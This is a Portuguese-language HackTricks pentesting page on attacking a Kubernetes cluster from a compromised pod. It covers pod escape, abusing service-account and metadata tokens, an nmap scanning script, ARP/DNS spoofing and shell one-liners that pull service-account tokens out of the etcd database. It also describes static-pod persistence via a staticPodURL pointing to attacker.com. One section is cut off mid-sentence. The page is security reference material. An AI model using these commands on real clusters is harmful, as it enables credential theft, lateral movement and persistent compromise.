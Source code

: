 # Atacando o Kubernetes de dentro de um Pod

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## **Pod Breakout**

**Se você tiver sorte, poderá escapar dele para o nó:**

![](https://sickrov.github.io/media/Screenshot-161.jpg)

### Escapando do pod

Para tentar escapar do pod, você pode precisar **escalar privilégios** primeiro, algumas técnicas para fazê-lo:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}

Você pode verificar esses **docker breakouts para tentar escapar** de um pod que você comprometeu:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout" %}

### Abusando dos Privilégios do Kubernetes

Como explicado na seção sobre **enumeração do Kubernetes**:

{% content-ref url="kubernetes-enumeration.md" %}
[kubernetes-enumeration.md](kubernetes-enumeration.md)
{% endcontent-ref %}

Normalmente, os pods são executados com um **token de conta de serviço** dentro deles. Essa conta de serviço pode ter alguns **privilégios anexados** que você pode **abusar** para **mover** para outros pods ou até mesmo para **escapar** para os nós configurados dentro do cluster. Verifique como em:

{% content-ref url="abusing-roles-clusterroles-in-kubernetes/" %}
[abusing-roles-clusterroles-in-kubernetes](abusing-roles-clusterroles-in-kubernetes/)
{% endcontent-ref %}

### Abusando dos Privilégios da Nuvem

Se o pod for executado dentro de um **ambiente de nuvem**, você poderá **vazar um token do endpoint de metadados** e escalar privilégios usando-o.

## Procurando serviços de rede vulneráveis

Como você está dentro do ambiente do Kubernetes, se não puder escalar privilégios abusando dos privilégios atuais dos pods e não puder escapar do contêiner, você deve **procurar serviços potencialmente vulneráveis.**

### Serviços

**Para esse propósito, você pode tentar obter todos os serviços do ambiente do Kubernetes:**

```
kubectl get svc --all-namespaces
```

Por padrão, o Kubernetes usa um esquema de rede plano, o que significa que **qualquer pod/serviço dentro do cluster pode se comunicar com outros**. Os **namespaces** dentro do cluster **não têm restrições de segurança de rede por padrão**. Qualquer pessoa no namespace pode se comunicar com outros namespaces.

### Escaneamento

O seguinte script Bash (retirado de um [workshop do Kubernetes](https://github.com/calinah/learn-by-hacking-kccn/blob/master/k8s_cheatsheet.md)) instalará e escaneará os intervalos de IP do cluster do Kubernetes:

```bash
sudo apt-get update
sudo apt-get install nmap
nmap-kube () 
{ 
    nmap --open -T4 -A -v -Pn -p 80,443,2379,8080,9090,9100,9093,4001,6782-6784,6443,8443,9099,10250,10255,10256 "${@}"
}

nmap-kube-discover () {
    local LOCAL_RANGE=$(ip a | awk '/eth0$/{print $2}' | sed 's,[0-9][0-9]*/.*,*,');                                                                  
    local SERVER_RANGES=" ";
    SERVER_RANGES+="10.0.0.1 ";
    SERVER_RANGES+="10.0.1.* ";
    SERVER_RANGES+="10.*.0-1.* ";
    nmap-kube ${SERVER_RANGES} "${LOCAL_RANGE}"
}
nmap-kube-discover
```

Confira a seguinte página para aprender como você pode **atacar serviços específicos do Kubernetes** para **comprometer outros pods/todo o ambiente**:

{% content-ref url="pentesting-kubernetes-services.md" %}
[pentesting-kubernetes-services.md](pentesting-kubernetes-services.md)
{% endcontent-ref %}

### Sniffing

Caso o **pod comprometido esteja executando algum serviço sensível** em que outros pods precisem se autenticar, você poderá obter as credenciais enviadas pelos outros pods **farejando as comunicações locais**.

## Network Spoofing

Por padrão, técnicas como **ARP spoofing** (e graças a isso **DNS Spoofing**) funcionam na rede do Kubernetes. Então, dentro de um pod, se você tiver a **capacidade NET\_RAW** (que está lá por padrão), você poderá enviar pacotes de rede personalizados e realizar **ataques MitM via ARP Spoofing para todos os pods em execução no mesmo nó.**\
Além disso, se o **pod malicioso** estiver em execução no **mesmo nó que o servidor DNS**, você poderá realizar um **ataque de DNS Spoofing para todos os pods no cluster**.

{% content-ref url="kubernetes-network-attacks.md" %}
[kubernetes-network-attacks.md](kubernetes-network-attacks.md)
{% endcontent-ref %}

## Node DoS

Não há especificação de recursos nos manifestos do Kubernetes e **nenhum limite aplicado
### Roubar etcd

Se você puder especificar o [**nodeName**](https://kubernetes.io/docs/tasks/configure-pod-container/assign-pods-nodes/#create-a-pod-that-gets-scheduled-to-specific-node) do nó que executará o contêiner, obtenha um shell dentro de um nó de plano de controle e obtenha o **banco de dados etcd**:

```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

Os nós de plano de controle têm a **função de mestre** e em **clusters gerenciados em nuvem você não poderá executar nada neles**.

#### Ler segredos do etcd

Se você puder executar seu pod em um nó de plano de controle usando o seletor `nodeName` na especificação do pod, poderá ter fácil acesso ao banco de dados `etcd`, que contém toda a configuração do cluster, incluindo todos os segredos.

Abaixo está uma maneira rápida e suja de pegar segredos do `etcd` se ele estiver sendo executado no nó de plano de controle em que você está. Se você quiser uma solução mais elegante que inicie um pod com a utilidade do cliente `etcd` `etcdctl` e use as credenciais do nó de plano de controle para se conectar ao etcd onde quer que ele esteja sendo executado, confira [este exemplo de manifesto](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) de @mauilion.

**Verifique se o `etcd` está sendo executado no nó de plano de controle e veja onde está o banco de dados (isso está em um cluster criado por `kubeadm`)**

```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```

Saída:

```bash
data-dir=/var/lib/etcd
```

**Veja os dados no banco de dados etcd:**

```bash
strings /var/lib/etcd/member/snap/db | less
```

**Extraia os tokens do banco de dados e mostre o nome da conta de serviço**

```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**O mesmo comando, mas com alguns greps para retornar apenas o token padrão no namespace kube-system**

```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```

Saída:

```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```

### Persistência de Pods Estáticos/Mirrored

_Pods Estáticos_ são gerenciados diretamente pelo daemon kubelet em um nó específico, sem que o servidor API os observe. Ao contrário dos Pods que são gerenciados pelo plano de controle (por exemplo, um Deployment); em vez disso, o **kubelet observa cada Pod estático** (e o reinicia se falhar).

Portanto, os Pods estáticos estão sempre **vinculados a um Kubelet** em um nó específico.

O **kubelet tenta automaticamente criar um Pod espelho no servidor API do Kubernetes** para cada Pod estático. Isso significa que os Pods em execução em um nó são visíveis no servidor API, mas não podem ser controlados a partir dele. Os nomes dos Pods serão sufixados com o nome do host do nó com um hífen inicial.

{% hint style="danger" %}
O **`spec` de um Pod estático não pode se referir a outros objetos da API** (por exemplo, ServiceAccount, ConfigMap, Secret, etc. Portanto, **você não pode abusar desse comportamento para lançar um pod com uma conta de serviço arbitrária** no nó atual para comprometer o cluster. Mas você pode usar isso para executar pods em diferentes namespaces (caso seja útil por algum motivo).
{% endhint %}

Se você estiver dentro do host do nó, poderá fazê-lo criar um **pod estático dentro dele mesmo**. Isso é bastante útil porque pode permitir que você **crie um pod em um namespace diferente** como **kube-system**.

Para criar um pod estático, a [**documentação é de grande ajuda**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). Basicamente, você precisa de 2 coisas:

* Configure o parâmetro **`--pod-manifest-path=/etc/kubernetes/manifests`** no **serviço kubelet**, ou no **config do kubelet** ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/#kubelet-config-k8s-io-v1beta1-KubeletConfiguration)) e reinicie o serviço
* Crie a definição no **pod definition** em **`/etc/kubernetes/manifests`**

**Outra maneira mais furtiva seria:**

* Modificar o parâmetro **`staticPodURL`** do arquivo de configuração do **kubelet** e definir algo como `staticPodURL: http://attacker.com:8765/pod.yaml`. Isso fará com que o